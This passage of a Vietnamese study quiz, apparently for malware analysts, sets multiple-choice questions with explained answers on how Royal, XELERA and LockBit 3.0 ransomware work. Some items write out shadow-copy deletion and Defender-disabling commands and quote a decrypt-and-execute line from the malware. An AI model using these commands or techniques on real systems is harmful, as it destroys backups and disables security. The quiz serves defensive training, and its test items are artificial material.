- B. `SetFileAttributes`
- C. `MoveFileExW`
- D. `CreateFileW`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `MoveFileExW` được dùng để đổi tên file, thêm đuôi `.royal` vào tên file đã mã hóa.

---

**Câu 10.** Royal Ransomware ghi ransom note với tên file nào?

- A. `RANSOM_NOTE.txt`
- B. `HOW_TO_DECRYPT.txt`
- C. `README.TXT`
- D. `ROYAL_NOTICE.txt`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Royal ghi file `README.TXT` vào mỗi thư mục không nằm trong danh sách loại trừ. File này cũng nằm trong danh sách extension loại trừ để không bị mã hóa.

---

**Câu 11.** Royal Ransomware quét mạng tìm kiếm các địa chỉ IP nào?

- A. Chỉ IP public
- B. 192.x, 10.x, 100.x, 172.x
- C. Toàn bộ dải IP
- D. Chỉ IP trong cùng subnet

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Royal tìm các IP nội bộ bắt đầu bằng: `192.` (Class C private), `10.` (Class A private), `100.` (CGNAT), `172.` (Class B private). Đây là các dải IP thường dùng trong mạng nội bộ doanh nghiệp.

---

**Câu 12.** Royal Ransomware kết nối đến cổng nào khi quét tài nguyên chia sẻ mạng?

- A. 80 (HTTP)
- B. 443 (HTTPS)
- C. 445 (SMB)
- D. 3389 (RDP)

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Royal dùng `htons(445)` để kết nối qua cổng SMB (Server Message Block), giao thức dùng để chia sẻ file trong mạng Windows.

---

**Câu 13.** API nào Royal dùng để liệt kê tài nguyên chia sẻ mạng?

- A. `GetShareInfo`
- B. `NetShareEnum`
- C. `EnumNetResources`
- D. `WNetEnumResource`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `NetShareEnum` là Windows API dùng để liệt kê tất cả tài nguyên chia sẻ trên một máy tính trong mạng. Royal dùng API này để tìm các share có thể mã hóa.

---

**Câu 14.** Royal Ransomware bỏ qua những loại tài nguyên chia sẻ nào?

- A. `C$` và `D$`
- B. `ADMIN$` và `IPC$`
- C. `PRINT$` và `FAX$`
- D. Không bỏ qua loại nào

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `ADMIN$` (chia sẻ quản trị ẩn của Windows) và `IPC$` (inter-process communication share) bị loại trừ. Đây là các share quản trị hệ thống, mã hóa chúng có thể làm hỏng hệ thống.

---

**Câu 15.** Windows Restart Manager được sử dụng trong Royal Ransomware với mục đích gì?

- A. Khởi động lại máy sau khi mã hóa
- B. Kiểm tra và kill các process đang sử dụng file mục tiêu
- C. Leo thang đặc quyền
- D. Xóa shadow copy

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Restart Manager (các API `RmStartSession`, `RmRegisterResources`, `RmGetList`, `RmShutDown`) được dùng để tìm và kill các process đang khóa file mục tiêu, đảm bảo file có thể được mã hóa. Conti, Babuk, và LockBit cũng dùng kỹ thuật tương tự.

---

**Câu 16.** XELERA Ransomware được phát hiện vào ngày nào?

- A. 18/01/2024
- B. 18/01/2025
- C. 18/03/2025
- D. 01/01/2025

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Ngày 18/01/2025, đội nghiên cứu Seqrite phát hiện tài liệu độc hại trên VirusTotal theo hunting rules.

---

**Câu 17.** File mồi nhử của XELERA Ransomware giả mạo tổ chức nào?

- A. Infosys India
- B. TCS (Tata Consultancy Services)
- C. Food Corporation of India (FCI)
- D. NASSCOM

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    File `FCEI-job-notification.doc` giả mạo thông báo tuyển dụng của Food Corporation of India (FCI), nhắm vào ứng viên kỹ sư và các vị trí kỹ thuật.

---

**Câu 18.** XELERA Ransomware được đóng gói bằng công cụ gì?

- A. cx_Freeze
- B. Nuitka
- C. PyInstaller
- D. py2exe

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Payload `jobnotification2025.exe` là PyInstaller binary. PyInstaller là công cụ đóng gói Python script thành executable, được nhiều tác giả malware ưa dùng (HolyCrypt và các locker/stealer khác cũng dùng PyInstaller).

---

**Câu 19.** OLE stream chứa payload độc hại trong tài liệu XELERA có kích thước bao nhiêu?

- A. 1.5 MB
- B. 15.5 MB
- C. 31.5 MB
- D. 63.5 MB

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    OLE object `Ole10Native` nằm trong `ObjectPool` có kích thước 31.527.394 bytes (khoảng 31.5 MB).

---

**Câu 20.** XELERA sử dụng kênh C2 (Command & Control) nào?

- A. Telegram Bot
- B. Discord Bot
- C. IRC Channel
- D. Custom HTTP Server

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Kẻ tấn công dùng Discord Bot làm kênh C2, gửi lệnh điều khiển qua Discord server. Đây là xu hướng ngày càng phổ biến vì Discord traffic khó bị block và dễ ẩn danh.

---

**Câu 21.** XELERA dùng API nào để kiểm tra quyền Administrator?

- A. `GetTokenInformation`
- B. `CheckTokenMembership`
- C. `IsUserAnAdmin`
- D. `OpenProcessToken`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `ctypes.windll.shell32.IsUserAnAdmin()` được dùng để kiểm tra. Nếu không phải admin, bot dùng `ShellExecuteW` với verb `"runas"` để kích hoạt UAC prompt.

---

**Câu 22.** Hàm `kill_explorer` trong XELERA hoạt động như thế nào?

- A. Kill explorer.exe một lần duy nhất
- B. Kill explorer.exe liên tục trong vòng lặp, trừ khi memz.exe đang chạy
- C. Disable explorer.exe qua registry
- D. Rename file explorer.exe

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `kill_explorer()` chạy trong vòng lặp `while True`. Nó kiểm tra xem `memz.exe` có đang chạy không. Nếu không có memz.exe, nó tìm và kill `explorer.exe`. Nếu có memz.exe đang chạy, nó sleep 0.5 giây rồi kiểm tra lại.

---

**Câu 23.** MEMZ.exe ghi đè vào phần nào của ổ đĩa để làm máy không thể boot?

- A. Boot Sector của phân vùng C:
- B. MBR (Master Boot Record) của PhysicalDrive0
- C. GPT Header
- D. UEFI firmware

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    MEMZ mở `\\\\.\\PhysicalDrive0` (raw disk access), chuẩn bị payload 64KB và dùng `WriteFile` để ghi đè MBR. Sau khi MBR bị ghi đè, hệ thống không thể boot lại.

---

**Câu 24.** XELERA Ransomware có thực sự mã hóa file bằng thuật toán mật mã không?

- A. Có, dùng AES-256
- B. Có, dùng RSA-2048
- C. Không, không thực hiện mã hóa thật
- D. Có, dùng ChaCha20

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Theo kết luận phân tích của Seqrite, XELERA "currently not performing any sort of encryption involving cryptography". Tác động chủ yếu là MBR corruption, đánh cắp dữ liệu, và các hành động phá hoại khác - không phải mã hóa file thật sự.

---

**Câu 25.** XELERA lưu MEMZ.exe vào thư mục nào để đảm bảo tự khởi động?

- A. `C:\Windows\System32`
- B. `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`
- C. `C:\ProgramData`
- D. `%TEMP%`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Thư mục Startup trong `%APPDATA%` là cơ chế persistence cơ bản của Windows. Bất kỳ file thực thi nào trong thư mục này sẽ tự động chạy khi user đăng nhập.

---

**Câu 26.** Hàm `rename_windows` trong XELERA làm gì?

- A. Đổi tên user account của nạn nhân
- B. Liên tục đổi tiêu đề tất cả cửa sổ thành thông điệp đòi tiền chuộc
- C. Đổi tên máy tính (computer name)
- D. Đổi tên các file trên desktop

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `rename_windows()` dùng `ctypes.windll.user32.SetWindowTextW` để đổi tiêu đề của tất cả cửa sổ đang mở thành `"UR PC IS UNTIL GET 50 USD"`. Hàm này chạy trong vòng lặp liên tục.

---

**Câu 27.** XELERA sử dụng thư viện Python nào để giám sát và liệt kê process?

- A. `subprocess`
- B. `os`
- C. `psutil`
- D. `win32api`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `psutil` (Python System and Process Utilities) được dùng để liệt kê và theo dõi các process đang chạy. Thư viện này cũng được dùng trong `kill_explorer` để tìm `memz.exe` và `explorer.exe`.

---

**Câu 28.** LockBit 3.0 có tên gọi khác là gì?

- A. LockBit Red
- B. LockBit Black
- C. LockBit Dark
- D. LockBit Blue

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    LockBit 3.0 còn được gọi là **LockBit Black**. Tên này xuất phát từ màu sắc được dùng trong branding của nhóm.

---

**Câu 29.** LockBit 3.0 xuất hiện vào tháng nào?

- A. Tháng 1/2022
- B. Tháng 3/2022
- C. Tháng 7/2022
- D. Tháng 11/2022

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    LockBit 3.0 xuất hiện từ tháng 7/2022 và nhanh chóng trở thành một trong những ransomware nguy hiểm nhất thế giới.

---

**Câu 30.** LockBit 3.0 yêu cầu điều gì để giải mã text section?

- A. Kết nối internet
- B. Mật khẩu dòng lệnh
- C. Khóa USB dongle
- D. Kết nối đến C2 server

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    LockBit 3.0 yêu cầu mật khẩu truyền qua command line để giải mã `.itext` section. Đây là kỹ thuật anti-analysis - nếu nhà phân tích không có mật khẩu, không thể chạy hay phân tích mẫu đầy đủ. Kỹ thuật tương tự được dùng bởi Egregor và BlackCat.

---

**Câu 31.** LockBit 3.0 dùng thuật toán gì để schedule key cho RC4?

- A. `Rc4Ksa` (Key Scheduling Algorithm)
- B. AES key expansion
- C. PBKDF2
- D. bcrypt

??? info "Đáp án & Giải thích"
    **Đáp án: A**
    
    Sau khi parse mật khẩu dòng lệnh, LockBit dùng `Rc4Ksa()` để tạo key schedule từ mật khẩu, sau đó dùng key đó để giải mã text section bằng RC4.

---

**Câu 32.** LockBit 3.0 tái tạo Import Address Table (IAT) bằng cách nào?

- A. Đọc trực tiếp từ PE header
- B. Hash-based API resolution với stub ngẫu nhiên
- C. Hardcode tất cả địa chỉ API
- D. Dùng GetProcAddress trực tiếp

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    LockBit 3.0 dùng quy trình 3 bước: (1) tìm DLL bằng hash tên, (2) trích xuất địa chỉ API bằng hash tên API từ InLoadOrderModuleList, (3) chọn ngẫu nhiên 1 trong 5 stub template để che địa chỉ API bằng ROR/ROL + XOR.

---

**Câu 33.** Trong kỹ thuật string obfuscation của LockBit 3.0, XOR key được sử dụng là gì?

- A. `0xDEADBEEF`
- B. `0x4506DFCA`
- C. `0xCAFEBABE`
- D. `0x13371337`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Hàm `str_decrypt_401260` dùng key `0x4506DFCAu` để XOR giải mã stack strings. Key này cũng xuất hiện trong các stub IAT reconstruction.

---

**Câu 34.** LockBit 3.0 kiểm tra ngôn ngữ hệ thống để làm gì?

- A. Hiển thị ransom note bằng ngôn ngữ phù hợp
- B. Thoát nếu hệ thống dùng ngôn ngữ CIS (Nga, Ukraine, v.v.)
- C. Chọn server C2 phù hợp địa lý
- D. Điều chỉnh giá tiền chuộc

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Code từ BlackMatter/DarkSide: nếu ngôn ngữ hệ thống là Russian (0x419), Ukrainian (0x422), Belarusian (0x423) và các ngôn ngữ CIS khác, ransomware tự thoát. Đây là cách nhóm tránh tấn công vào các quốc gia cùng khối với nhóm hacker.

---

**Câu 35.** LockBit 3.0 vô hiệu hóa Windows Defender bằng cách nào?

- A. Xóa file thực thi của Defender
- B. Dùng token của Trusted Installer Service để stop và delete Defender services
- C. Sửa registry để disable Defender
- D. Dùng PowerShell `Set-MpPreference -DisableRealtimeMonitoring $true`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    LockBit sao chép access token của **Trusted Installer Service** - service duy nhất có đủ quyền để dừng Windows Defender. Sau đó dùng `ControlService` (stop) và `DeleteService` (xóa) các service như WinDefend, WscSvc, Sense, SecurityHealthService, v.v.

---

**Câu 36.** LockBit 3.0 xóa shadow copy bằng phương pháp nào?

- A. `vssadmin delete shadows /all /quiet`
- B. WMI interface
- C. PowerShell `Remove-WmiObject`
- D. Trực tiếp xóa file VSS

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    LockBit 3.0 dùng WMI (T1047) để xóa shadow copy, khác với Royal dùng vssadmin. Dùng WMI giúp tránh bị phát hiện bởi các giải pháp monitor việc chạy vssadmin.

---

**Câu 37.** LockBit 3.0 xóa Windows Event Log bằng API nào?

- A. `DeleteEventLog`
- B. `ClearEventLogW`
- C. `PurgeEventLog`
- D. `WipeEventLog`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `ClearEventLogW(hEventLog, NULL)` được gọi cho từng event log channel sau khi mở bằng `OpenEventLogW`. Sau đó vô hiệu hóa channel qua registry và xóa service EventLog.

---

**Câu 38.** LockBit 3.0 tạo bao nhiêu luồng mã hóa tối đa?

- A. 16
- B. 24
- C. 32
- D. 64

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `CpuNum = GetCpuNum()`. Nếu `CpuNum > 0x20 (32)`, giới hạn lại thành 32. Số luồng tối đa là 32.

---

**Câu 39.** LockBit 3.0 lưu icon và wallpaper vào thư mục nào?

- A. `%TEMP%`
- B. `C:\Windows\System32`
- C. `C:\ProgramData`
- D. `%APPDATA%`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    LockBit 3.0 lưu file `.ico` và `.bmp` (wallpaper) vào thư mục `C:\ProgramData`. Từ đây nó đặt làm icon cho các file đã mã hóa và hình nền desktop.

---

**Câu 40.** Kỹ thuật UAC Bypass nào LockBit 3.0 sử dụng?

- A. fodhelper.exe bypass
- B. eventvwr.exe bypass
- C. CMSTPLUA bypass
- D. DiskCleanup bypass

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    LockBit 3.0 dùng kỹ thuật **CMSTPLUA UAC Bypass** - khai thác COM object `CMSTPLUA` để thực thi code với quyền cao mà không hiện UAC prompt.

---

**Câu 41.** Kỹ thuật persistence nào LockBit 3.0 dùng để chạy trong Safe Mode?

- A. Scheduled Task
- B. Service installation
- C. Registry Run Keys trong safeboot mode
- D. DLL hijacking

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    LockBit 3.0 tạo registry autorun key trong nhánh `HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot`, đảm bảo ransomware vẫn chạy khi nạn nhân boot vào Safe Mode để cố gắng gỡ bỏ.

---

**Câu 42.** Ransomware nào trong ba loại được phân tích KHÔNG sử dụng mô hình RaaS?

- A. LockBit 3.0
- B. Royal
- C. XELERA
- D. Cả A và C

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Royal ransomware hoạt động độc lập, không dùng mô hình RaaS, không nhắm vào ngành hoặc quốc gia cụ thể. LockBit 3.0 duy trì nền tảng RaaS.

---

**Câu 43.** Điểm tương đồng kỹ thuật quan trọng nhất giữa LockBit 3.0 và BlackMatter/DarkSide là gì?

- A. Dùng cùng mã hóa file
- B. Entry point code và ParseApiHashTable function giống nhau
- C. Dùng cùng ransom note
- D. Dùng cùng C2 server

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Cả entry point (`start` function) và `ParseApiHashTable` function của LockBit 3.0 và BlackMatter có cấu trúc code rất giống nhau. Nhiều nhà nghiên cứu cho rằng phần lớn kỹ thuật LockBit 3.0 được kế thừa từ BlackMatter/DarkSide.

---

**Câu 44.** Trong LockBit 3.0, `HideThreadFromDebugger` được gọi sau khi tạo mỗi luồng mã hóa. Đây là kỹ thuật gì?

- A. T1027 - Obfuscation
- B. T1622 - Debugger Evasion
- C. T1140 - Deobfuscation
- D. T1134 - Token Impersonation

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `HideThreadFromDebugger` (thực chất gọi `NtSetInformationThread` với `ThreadHideFromDebugger`) làm cho debugger không nhìn thấy luồng đó, thuộc kỹ thuật T1622 - Debugger Evasion. Kỹ thuật này cũng xuất hiện trong `ParseApiHashTable`.

---

**Câu 45.** LockBit 3.0 di chuyển ngang (lateral movement) bằng cách nào?

- A. Khai thác lỗ hổng EternalBlue
- B. Qua Admin Shares hoặc Domain Group Policy
- C. Qua RDP brute force
- D. Qua phishing email

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    LockBit 3.0 thực hiện lateral movement qua **Admin Shares** (chia sẻ quản trị như `\\server\C$`) hoặc **Domain Group Policy** để phân phối và thực thi trên các máy trong domain (T1570 - Lateral Tool Transfer).

---

**Câu 46.** Ba ransomware nào được đề cập sử dụng Windows Restart Manager tương tự Royal?

- A. LockBit, Ryuk, Maze
- B. Conti, Babuk, LockBit
- C. REvil, DarkSide, Hive
- D. BlackCat, Cl0p, Hive

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Tài liệu đề cập **Conti, Babuk, và LockBit** đều dùng Windows Restart Manager theo cách tương tự Royal - kiểm tra và kill các process đang sử dụng file mục tiêu trước khi mã hóa.

---

**Câu 47.** Trong quá trình phân tích XELERA, công cụ nào được dùng để phân tích OLE streams của file Word?

- A. `oletools`
- B. `oledump.py`
- C. `officeparser`
- D. `maldoc`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `oledump.py` (của nhà nghiên cứu Didier Stevens) được dùng để phân tích cấu trúc OLE streams của file Word và trích xuất embedded objects.

---

**Câu 48.** XELERA đánh cắp thông tin từ database file History của Chrome được lưu ở đâu?

- A. `%PROGRAMFILES%\Google\Chrome\...`
- B. `%LOCALAPPDATA%\Google\Chrome\User Data\Default\History`
- C. `%APPDATA%\Google\Chrome\...`
- D. `%TEMP%\Chrome\...`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Chrome lưu lịch sử duyệt web trong SQLite database tại `%LOCALAPPDATA%\Google\Chrome\User Data\Default\History`. Edge lưu ở đường dẫn tương tự nhưng thay `Google\Chrome` bằng `Microsoft\Edge`.

---

**Câu 49.** Kỹ thuật hash matching trong LockBit 3.0 dùng phép toán nào để tính hash của API name?

- A. MD5
- B. SHA-1
- C. CRC32
- D. Custom: cộng ký tự (lowercase) + ROR 13 bit

??? info "Đáp án & Giải thích"
    **Đáp án: D**
    
    Hàm `str_hashing_401E4` dùng thuật toán custom: chuyển ký tự hoa thành thường, cộng vào accumulator sau khi rotate right 13 bit (`ROR4(a2, 13)`). Đây là biến thể phổ biến của "ROR13 hash" thường thấy trong shellcode.

---

**Câu 50.** Flag nào trong config LockBit 3.0 cho phép tự xóa sau khi chạy xong?

- A. `LB3_DELETE_SELF`
- B. `LB3_SELF_DESTRUCT`
- C. `LB3_AUTO_REMOVE`
- D. `LB3_CLEANUP`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `LB3_SELF_DESTRUCT` (xuất hiện ở IDX 14 và IDX 16 trong config) cho phép LockBit 3.0 tự xóa file thực thi sau khi hoàn thành - xóa dấu vết và khó phân tích forensics hơn.

---

**Câu 51.** Trong config LockBit 3.0, flag `LB3_LANGUAGE_CHECK` liên quan đến kỹ thuật MITRE nào?

- A. T1057 - Process Discovery
- B. T1614.001 - System Language Discovery
- C. T1012 - Query Registry
- D. T1082 - System Information Discovery

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Kiểm tra ngôn ngữ để tránh tấn công máy tính CIS country là kỹ thuật T1614.001 - System Location Discovery: System Language Discovery. Kỹ thuật này được kế thừa từ BlackMatter/DarkSide.

---

**Câu 52.** Điểm khác biệt cơ bản nhất giữa partial encryption của Royal và mã hóa thông thường là gì?

- A. Dùng thuật toán khác
- B. Chỉ mã hóa một tỷ lệ phần trăm linh hoạt của nội dung file, thay vì toàn bộ
- C. Không thêm extension mới
- D. Không ghi ransom note

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Partial encryption linh hoạt là đặc điểm độc đáo của Royal: mã hóa X% nội dung file (dựa trên tham số `-ep`). File vẫn bị hỏng hoàn toàn nhưng ransomware chạy nhanh hơn và ít bị phát hiện hơn bởi các giải pháp anti-ransomware phân tích tỷ lệ entropy thay đổi.

---

**Câu 53.** Trong XELERA, thư viện `notoken887` được dùng để làm gì?

- A. Quản lý kết nối Discord
- B. Mã hóa token/credentials
- C. Quét process
- D. Chụp screenshot

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `from notoken887.encryptor import TokenCryptor` - module này được dùng để mã hóa/giải mã token. Trong hàm khởi động ransomware: `cryptor = TokenCryptor(); decrypted_code = cryptor.process(l); exec(decrypted_code)` - giải mã và thực thi code ransomware được mã hóa.

---

**Câu 54.** LockBit 3.0 dùng kỹ thuật gì để ẩn thread khỏi debugger?

- A. `SuspendThread`
- B. `NtSetInformationThread` với `ThreadHideFromDebugger`
- C. `DebugActiveProcessStop`
- D. `NtQueryInformationProcess`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `HideThreadFromDebugger_4002B4` gọi Windows native API `NtSetInformationThread` với flag `ThreadHideFromDebugger`. Thread bị ẩn này không hiển thị trong debugger, làm khó quá trình phân tích động.

---

**Câu 55.** Trong Royal Ransomware, API nào được dùng để lấy danh sách địa chỉ IP của các interface mạng?

- A. `GetAdaptersInfo`
- B. `GetNetworkParams`
- C. `GetIpAddrTable`
- D. `GetAdaptersAddresses`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `GetIpAddrTable` retrieves the interface-to-IPv4 address mapping table, cho phép Royal lấy danh sách tất cả địa chỉ IPv4 trên máy mục tiêu để scan mạng nội bộ.